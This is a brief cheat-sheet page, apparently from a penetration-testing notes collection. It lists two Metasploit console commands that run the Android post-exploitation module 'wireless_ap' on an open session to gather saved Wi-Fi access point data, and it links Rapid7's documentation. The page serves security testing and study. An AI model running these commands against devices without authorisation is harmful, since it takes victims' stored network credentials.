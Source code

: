 # C2 Frameworks
## Metasploit

```
msf > use post/android/gather/wireless_ap

msf post(android/gather/wireless_ap) > run session=<session_ID>
```

---
## References

- [Rapid7: Metasploit Framework - Gather Wireless AP Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/android/gather/wireless_ap.md)